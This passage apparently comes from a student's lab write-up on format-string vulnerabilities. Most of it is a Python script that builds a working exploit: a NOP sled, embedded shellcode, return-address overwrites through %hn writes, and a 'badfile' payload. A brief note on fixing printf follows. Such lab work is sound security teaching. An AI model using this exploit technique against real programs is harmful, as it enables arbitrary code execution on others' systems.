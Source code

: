 ```python
    "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

############################################################
#
#    Construct the format string here
#
############################################################
target_addr = 0x00007fffffffe210 + 0x8  # rbp+8
#shell_code_addr = 0x00007fffffffe2d0 + 0x40  # addr of shell code
# = 0x 0000 7FFF FFFF E310

# Put addresses in the end of payload
addrs_start = 0x400
content[addrs_start + 0: addrs_start +
        8] = (target_addr + 6).to_bytes(8, byteorder='little')
content[addrs_start + 8: addrs_start + 16] = ("abcdefgh").encode("latin-1")
content[addrs_start + 16: addrs_start +
        24] = (target_addr + 4).to_bytes(8, byteorder='little')
content[addrs_start + 24: addrs_start + 32] = ("abcdefgh").encode("latin-1")
content[addrs_start + 32: addrs_start +
        40] = (target_addr).to_bytes(8, byteorder='little')
content[addrs_start + 40: addrs_start + 48] = ("abcdefgh").encode("latin-1")
content[addrs_start + 48: addrs_start +
        56] = (target_addr + 2).to_bytes(8, byteorder='little')  # 0x0000

len1 = 0x7FFF
len2 = 0xE310 - 0x7FFF
len3 = 0xFFFF - 0xE310
s = "%162$hn" + f"%.{len1}x" + "%164$hn" + f"%.{len2}x" + "%166$hn" + f"%.{len3}x" + "%168$hn"
fmt = (s).encode("latin-1")
content[0:len(fmt)] = fmt

# Put the shellcode somewhere in the payload
shell_code_start = 0x40
content[shell_code_start:shell_code_start + len(shellcode)] = shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)

```



![image-20220225182213575](Format String.assets/image-20220225182213575.png)

## Task 6: Fixing the Problem

将`printf(msg)`改为`printf("%s", msg)`即可。

